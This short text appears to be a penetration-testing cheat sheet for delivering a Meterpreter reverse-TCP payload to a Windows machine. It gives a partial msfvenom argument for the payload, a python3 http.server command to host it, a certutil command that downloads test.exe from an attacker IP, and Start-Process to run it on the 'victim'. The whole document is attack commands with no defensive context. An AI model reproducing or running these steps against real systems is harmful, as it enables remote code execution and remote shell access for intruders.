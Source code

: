 ### Using MSF Venom Generate a simple payload

```-p windows/x64/meterpreter_reverse_tcp ```

### Set up an http.server and use PS on victim to download payload

```python3 http.server [port-number]```

```certutil -urlcache -split -f http://192.168.80.129:8000/test.exe```

```Start-Process test.exe```